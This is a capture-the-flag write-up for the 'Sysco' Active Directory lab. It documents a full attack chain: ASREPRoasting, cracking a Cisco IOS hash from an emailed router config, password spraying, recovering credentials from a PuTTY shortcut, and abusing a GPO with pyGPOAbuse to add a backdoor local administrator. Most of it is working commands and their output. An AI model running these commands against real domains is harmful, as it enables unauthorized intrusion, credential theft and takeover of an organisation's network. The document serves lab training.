# Sysco


**Platform:** Hack Smarter Labs  
**Difficulty:** Medium  
**Topics:** ASREPRoasting, Cisco IOS Hash Cracking, Password Spraying, Roundcube Webmail, BloodHound, Evil-WinRM, RDP Enumeration, PuTTY LNK Credential Recovery, GPO Abuse (GenericAll), pyGPOAbuse

---

## Overview

Sysco is a medium-rated Active Directory lab simulating an external penetration test against a Managed Service Provider. Starting with no credentials, the attack chain moves from web enumeration and username discovery through ASREPRoasting, lateral movement via credentials recovered from a router config email, and full domain compromise by abusing GenericAll over a GPO.

**Attack Path:**
```
Web enum (#team page) → username-anarchy + Kerbrute → ASREPRoast jack.dowland
→ Hashcat (cracked) → Roundcube webmail → router config email (Cisco IOS hash)
→ Hashcat -m 500 (cracked) → Password spray → lainey.moore
→ Evil-WinRM / RDP → User flag
→ RDP enum (PuTTY .lnk) → greg.shields plaintext creds
→ BloodHound → greg.shields GenericAll on Default Domain Policy GPO
→ Get-GPO -All → pyGPOAbuse (Immediate Scheduled Task as SYSTEM)
→ Local admin → RDP → Root flag
```

---

## Target

| Host | IP | Role |
|------|-----|------|
| `DC01.SYSCO.LOCAL` | `<DC_IP>` | Windows Domain Controller |

---

## Service Enumeration

### Nmap

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
445/tcp  open  microsoft-ds?
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: SYSCO
|   DNS_Domain_Name: SYSCO.LOCAL
|   DNS_Computer_Name: DC01.SYSCO.LOCAL
|   Product_Version: 10.0.20348
```

Key findings:
- **Domain:** `SYSCO.LOCAL`
- **Hostname:** `DC01.SYSCO.LOCAL`
- **OS:** Windows Server 2022 (Build 20348)
- **Port 80:** Apache on Windows — XAMPP stack, unusual for a DC
- **Port 3389:** RDP open externally

---

## HTTP Enumeration (Port 80)

### Dirsearch

```
301  /assets
200  /cgi-bin/printenv.pl
301  /forms
200  /readme.txt
200  /roundcube/index.php
```

Key findings:
- **Roundcube** webmail running at `/roundcube/`
- `/cgi-bin/printenv.pl` — environment variable disclosure (nothing directly exploitable)

### Website — Potential Usernames (`#team`)

The company website lists staff names on a `#team` section:


```
greg shields
sarah johnson
jack dowland
lainey moore
```

### Roundcube Version



Source code inspection reveals:

```
rcversion: 10611
```

Relatively up to date — park for later once credentials are obtained.

### SMB — Null Session

```bash
nxc smb sysco.local -u "" -p "" --shares
```

```
SMB  DC01  [+] SYSCO.LOCAL\:
SMB  DC01  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Anonymous session permitted but no share access. Guest account disabled. RID brute-forcing blocked.

---

## Username Enumeration

### Generating a Username List — `username-anarchy`

Generate username format variations from the team names found on the website:

```bash
# users.txt
greg shields
sarah johnson
jack dowland
lainey moore
```

```bash
username-anarchy -i ./users.txt > wordlist.txt
```

### Kerbrute — Valid AD Account Discovery

```bash
kerbrute userenum -d sysco.local --dc <DC_IP> wordlist.txt
```

```
[+] VALID USERNAME: greg.shields@sysco.local
[+] VALID USERNAME: lainey.moore@sysco.local
[+] VALID USERNAME: jack.dowland@sysco.local
```

Three valid accounts confirmed via Kerberos pre-authentication.

---

## Initial Access — ASREPRoasting `jack.dowland`

ASREPRoasting targets accounts with **"Do not require Kerberos pre-authentication"** enabled — no credentials required, only valid usernames.

```bash
nxc ldap dc01.sysco.local -u ad-users.txt -p '' --asreproast hashes.txt
```

```
LDAP  DC01  $krb5asrep$23$jack.dowland@sysco.local@SYSCO.LOCAL:5b276348b1ef21b7...
```

`jack.dowland` is AS-REP roastable. Crack offline:

```bash
hashcat hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$jack.dowland@...:REDACTED
```

**Credentials: `jack.dowland:REDACTED`**

### Verify

```bash
nxc smb sysco.local -u jack.dowland -p 'REDACTED' --shares
```

```
SMB  DC01  [+] SYSCO.LOCAL\jack.dowland:REDACTED
SMB  DC01  NETLOGON  READ
SMB  DC01  SYSVOL    READ
```

---

## Domain Enumeration

### Dump Domain Users

```bash
nxc ldap dc01.sysco.local -u jack.dowland -p 'REDACTED' --users
```

```
-Username-      -Last PW Set-       -BadPW-  -Description-
Administrator   2025-10-17 22:57:08  0        Built-in account...
jack.dowland    2025-10-18 00:48:47  0        Helpdesk Tier 1
lainey.moore    2025-10-18 00:50:14  263      System Engineer
greg.shields    2025-10-18 00:51:59  263      System Administrator
```

### Password Policy

```bash
nxc ldap dc01.sysco.local -u jack.dowland -p 'REDACTED' -d sysco.local --pass-pol
```

Key findings:
- **Lockout threshold: 0** — no account lockout, spray freely
- **Minimum password length: 7** — weak passwords valid
- **No complexity requirement** — simple passwords allowed
- **No max password age** — stale passwords may be active

### BloodHound Collection

```bash
nxc ldap dc01.sysco.local -u jack.dowland -p 'REDACTED' \
  --bloodhound -c All --dns-server <DC_IP>
```

```
Bloodhound data collection completed in 0M 27S
```



**Key finding — `greg.shields` is a member of "Group Policy Creator Owners":**

Members of this group can modify group policy for the domain. Compromising `greg.shields` leads directly to Domain Admin.





---

## Roundcube Webmail — `jack.dowland`

Testing `jack.dowland:REDACTED` against the Roundcube portal at `http://sysco.local/roundcube/` — login succeeds.



**Email found in inbox from `lainey.moore`** — a router config file attached, with a request for Jack to remote into a router and update ACLs.



### Router Config — Cisco IOS Hash

Downloaded the attachment `router2.cfg`:

```
hostname R2
enable secret 5 $1$mERr$isugnYiHsjHT.i.tc2GDY.
```

The `enable secret 5` format is a **Cisco IOS MD5 hash** (hashcat mode `500`).

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

```
$1$mERr$isugnYiHsjHT.i.tc2GDY.:REDACTED
```

**Cracked: `REDACTED`**

---

## Lateral Movement — Compromising `lainey.moore`

Spray the cracked hash against the known domain users:

```bash
nxc smb dc01.sysco.local -u users_short.txt -p 'REDACTED' --continue-on-success
```

```
SMB  DC01  [-] SYSCO.LOCAL\greg.shields:REDACTED STATUS_LOGON_FAILURE
SMB  DC01  [+] SYSCO.LOCAL\lainey.moore:REDACTED
```

**Credentials: `lainey.moore:REDACTED`**

### BloodHound — `lainey.moore` Permissions

Lainey is a member of **Remote Management Users** and **Remote Desktop Users** — she has WinRM and RDP access.

```bash
nxc winrm dc01.sysco.local -u lainey.moore -p 'REDACTED'
```

```
WINRM  DC01  [+] SYSCO.LOCAL\lainey.moore:REDACTED (Pwn3d!)
```

### GUI Access via RDP — Remmina

```bash
sudo apt install remmina remmina-plugin-rdp
```

RDP in as `lainey.moore:REDACTED`.



### User Flag



---

## RDP Enumeration — Finding `greg.shields` Credentials

Browsing through the filesystem via RDP (no PowerShell needed).

### XAMPP folder — Default Passwords List

A passwords list found in the XAMPP directory — likely default credentials, nothing immediately useful.



### Key Finding — PuTTY Shortcut in `lainey.moore\Documents`



```
notes.txt
Putty - HS Router login.lnk
putty.exe
```

`notes.txt` contents:
```
- SSH to the 10.0.0.1 router with credentials provided by sysadmin to update ACLs for HS company
- Fix errors in config provided by tier 1 for Minicorp's new office router
```

Reading the `.lnk` file with `type` in PowerShell reveals embedded plaintext credentials:



`sysadmin` = `greg.shields` (System Administrator per AD description).

### Verify

```bash
nxc smb dc01.sysco.local -u greg.shields -p 'REDACTED' --shares
```

```
SMB  DC01  [+] SYSCO.LOCAL\greg.shields:REDACTED
```

**Credentials: `greg.shields:REDACTED`**

---

## Privilege Escalation — GPO Abuse via GenericAll

### Attack Path

BloodHound confirms `greg.shields` is a member of **Group Policy Creator Owners**, giving full control over GPOs in the domain. With GenericAll over the **Default Domain Policy** GPO, we can inject an Immediate Scheduled Task that executes as SYSTEM.





> "With full control of a GPO, you may make modifications to that GPO which will then apply to the users and computers affected by the GPO."

**Tool:** [`pyGPOAbuse`](https://github.com/Hackndo/pyGPOAbuse)

```bash
clonetool https://github.com/Hackndo/pyGPOAbuse.git
```

### Step 0 — Find the GPO ID

RDP in as `greg.shields`, open PowerShell:

```powershell
Get-GPO -All
```

```
DisplayName      : Default Domain Policy
DomainName       : SYSCO.LOCAL
Owner            : SYSCO\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled

DisplayName      : Default Domain Controllers Policy
DomainName       : SYSCO.LOCAL
Owner            : SYSCO\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
```

Cross-reference GUIDs against BloodHound to identify which GPO `greg.shields` has GenericAll over:



**Target GPO ID:** `31b2f340-016d-11d2-945f-00c04fb984f9`

### Step 1 — Create Local Admin + RDP User

```bash
./pygpoabuse.py sysco.local/greg.shields:'REDACTED' \
  -gpo-id '31b2f340-016d-11d2-945f-00c04fb984f9' \
  -dc-ip <DC_IP> \
  -f \
  -command 'net user jhaxx P@ss123! /add && net localgroup administrators jhaxx /add && net localgroup "Remote Desktop Users" jhaxx /add'
```

Creates a local admin user, adds to **Administrators** and **Remote Desktop Users**. The Immediate Scheduled Task fires without requiring `gpupdate /force`.

> Adding to **Remote Desktop Users** is required — local Administrators membership alone is not sufficient to log on via RDP if the account doesn't have the explicit "Allow log on through Remote Desktop Services" right.

### Step 2 — RDP in (Remmina)

`xfreerdp` was not connecting — used **Remmina** instead.



### Step 3 — Cleanup

```bash
./pygpoabuse.py sysco.local/greg.shields:'REDACTED' \
  -gpo-id '31b2f340-016d-11d2-945f-00c04fb984f9' \
  -dc-ip <DC_IP> \
  --cleanup
```

Removes the Immediate-Task XML from the GPO and rolls back the GPO version. The created user and group memberships remain on the system — remove manually if needed.

---

## Root Flag

Launch PowerShell as Administrator:



Navigate to the Administrator desktop:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



---

## Summary

| Step | Technique | Tool |
|------|-----------|------|
| Username discovery | Website OSINT + username format generation | `username-anarchy` |
| Valid user enumeration | Kerberos pre-auth brute | `Kerbrute` |
| Initial access | ASREPRoast → offline crack | `nxc`, `Hashcat` |
| Domain enumeration | LDAP user/policy dump + BloodHound | `nxc`, `BloodHound` |
| Credential recovery | Cisco IOS MD5 hash from router config email | `Roundcube`, `Hashcat -m 500` |
| Lateral movement | Password spray → `lainey.moore` | `nxc` |
| Remote access | WinRM / RDP | `evil-winrm`, `Remmina` |
| Credential recovery | PuTTY `.lnk` → plaintext password | Manual (RDP browse) |
| Privilege escalation | GenericAll on GPO → Immediate Scheduled Task as SYSTEM | `pyGPOAbuse` |
| Root | Local admin RDP → Administrator desktop | `Remmina` |
